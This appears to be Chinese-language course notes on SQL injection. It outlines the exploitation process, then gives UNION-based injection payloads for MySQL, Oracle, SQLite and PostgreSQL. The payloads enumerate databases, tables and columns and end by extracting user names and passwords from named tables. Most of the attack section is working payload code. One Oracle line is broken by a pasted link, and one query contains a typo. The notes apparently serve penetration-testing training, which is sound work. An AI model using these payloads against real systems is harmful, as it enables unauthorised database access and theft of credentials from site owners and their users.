

***root用户可以看到所有数据库，其他用户只能看到自身数据库***

## 影响SQL注入主要因素

1、数据库类型（权限操作）
2、数据操作方法（增删改查）
3、参数数据类型（符号干扰）
4、参数数据格式（加密编码等）
5、提交数据方式（数据包部分）
6、有无数据处理（无回显逻辑等）

## 常见SQL注入利用过程

1、判断数据库类型
2、判断参数类型及格式
3、判断数据格式及提交
4、判断数据回显及防护
5、获取数据库名，表名，列名
6、获取对应数据及尝试其他利用

## 黑/白盒发现SQL注入

1、盲对所有参数进行测试
2、整合功能点脑补进行测试

白盒参考后期代码审计课程

## 利用过程

获取数据库名->表名->列名->数据（一般是关键数据，如管理员)

### Mysql

```
id=1jdsakjf

id=1 group by(order by) 4

id=-1 union select 1,database(),3,4

id=-1 union select 1,group_concat(tanle_name),3,4 from information_schema.tables where table_schema=database()

id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member

id=-1 union select 1,2,group_concat(id,name,password),4 from StormGroup_member
```

### Oracle

```
and 1=2 union select (select distinct owner from all_tables where rownum=1),'2' from dual

and 1=2 union select (select table_name from user_tables where rownum=1),'2' from dual

and 1=2 union select (select table_name from user_tables whe[https://blog.csdn.net/qq_32393893/article/details/103083240](https://blog.csdn.net/qq_32393893/article/details/103083240)

1=2 union select (select column_name from all_tab_columns where rownum=1 and table_name='sns_users'),'2' from dual

and 1=2 union select (select column_name from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME')),'2' from dual

and 1=2 union select USER_NAME,USER_PWD from "sns_users"

and 1=2 union select USER_NAME,USER_PWD from "sns_users" where user_name not in ('hu')
```

### SQLite

```
union select 1,name,sql,4 from sqlite_master limit 0,1

union select 1,name,password,4 from WSTMart_reg
```

### PostgreSQL

```
and 1=2 union select 'null',null,null,null

and 1=2 union select null,'null',null,null

and 1=2 union select null,null,string_agg(datname,','),null from pg_database

and 1=2 union select null,null,string_agg(tablename,','),null from pg_tables where schemaname='public'

and 1=2 union select null,null,string_agg(column_name,','),null from information_schema.columns where table_name='reg_users'

and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users
```


